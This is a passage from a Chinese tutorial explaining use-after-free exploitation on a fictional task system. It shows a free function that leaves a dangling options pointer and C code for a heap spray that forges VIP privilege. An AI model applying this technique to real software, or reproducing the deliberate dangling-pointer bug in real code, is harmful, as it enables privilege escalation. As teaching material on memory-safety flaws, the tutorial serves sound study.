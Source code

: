 在理想情况下，不考虑逆向工程的方式，我们只能拿到 Task 的句柄，无法获取 Task 地址，因此无法任意修改 VIP 信息。

小明同时为用户提供了注销任务的 API，他只对任务的 options 进行了释放，同时将任务标记为 invalid，缺乏经验的他忘记清理 options 指针，为系统引入了一个 UAF Exploit：
```c
bool free_task(task_t task_id) {
    struct secret_task *task = get_task(task_id);
    if (!task) {
        return false;
    }
    free(task->options);
    task->valid = false;
    return true;
}
```

## 假设的攻击场景
常规情况下，我们只能透过公共的 API 访问系统：
```c
// create task
task_t task = create_secret_task();

// read options
int vipLevel;
secret_get_options(task, SecretTaskOptVipLevel, &vipLevel);

// get priority
int priority = get_task_priority(leaked_task);

// release task
free_task(task);
```

由于 Task 默认是非 VIP 的，我们只能拿到最低优先级 INTMAX。这里我们通过 `task->options` 的 UAF 可以伪造 task 的 VIP 等级，方法如下：
1. 创建一个 Task，并通过 free_task 函数将其释放，这会构造一个 `task->options` 的悬垂指针；
2. 不断分配与 `task->options` 指向的 `struct secret_options` 相同大小的内存区域，直到 `task->options` 悬垂指针指向的区域被 Reallocation 成我们新申请的内存，验证方式可以伪造特定数据，随后通过 `secret_get_options` 读取验证；
3. 此时 `struct secret_options` 已经指向了我们新申请的区域，可以通过修改该区域实现对 Task Options 的修改。

```c
struct faked_secret_options {
    bool isVIP;
    int vipLevel;
};
struct faked_secret_options *sprayPayload = nullptr;
task_t leaked_task = -1;

for (int i = 0; i < 100; i++) {
    // create task
    task_t task = create_secret_task();
    // free to make dangling options
    free_task(task);
    
    // alloc to spraying
    struct faked_secret_options *fakedOptions = (struct faked_secret_options *)calloc(1, sizeof(struct faked_secret_options));
    fakedOptions->isVIP = true;
    // to verify
    fakedOptions->vipLevel = 0x123456;
    
    // check by vipLevel
    int vipLevel;
    secret_get_options(task, SecretTaskOptVipLevel, &vipLevel);
    if (vipLevel == 0x123456) {
        printf("spray succeeded at %d!!!\n", i);
```